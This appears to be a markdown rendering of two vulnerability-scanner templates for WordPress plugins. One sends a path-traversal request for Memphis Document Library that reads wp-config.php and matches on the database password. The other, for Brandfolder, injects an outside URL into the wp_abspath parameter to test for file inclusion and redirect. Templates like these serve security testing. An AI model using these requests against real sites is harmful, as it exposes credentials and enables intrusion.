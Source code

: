 # WordPress Memphis Document Library 3.1.5 - Local File Inclusion
## Description
- WordPress Memphis Document Library 3.1.5 is vulnerable to local file inclusion.
- severity - high
- tags - wpscan,wordpress,wp-plugin,lfi,edb
## Requests
- Method - GET
### URL
- {{BaseURL}}/mdocs-posts/?mdocs-img-preview=../../../wp-config.php
- {{BaseURL}}/?mdocs-img-preview=../../../wp-config.php
### Matchers

**Type - word**
- words
    1. DB_NAME
    2. DB_PASSWORD
- part - body
- condition - and

**Type - status**
- status
    1. 200

---
# WordPress Brandfolder - Open Redirect (RFI & LFI)
## Description
- WordPress Brandfolder is vulnerable to remote/local file inclusion and allows remote attackers to inject an arbitrary URL into the 'callback.php' endpoint via the 'wp_abspath' parameter which will redirect the victim to it.

- severity - medium
- tags - wp,brandfolder,edb,wpscan,wp-plugin,redirect,rfi,wordpress,lfi
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/brandfolder/callback.php?wp_abspath=https://interact.sh/
### Matchers

**Type - regex**
- part - header
- regex
    1. (?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]*)interact\.sh.*$

---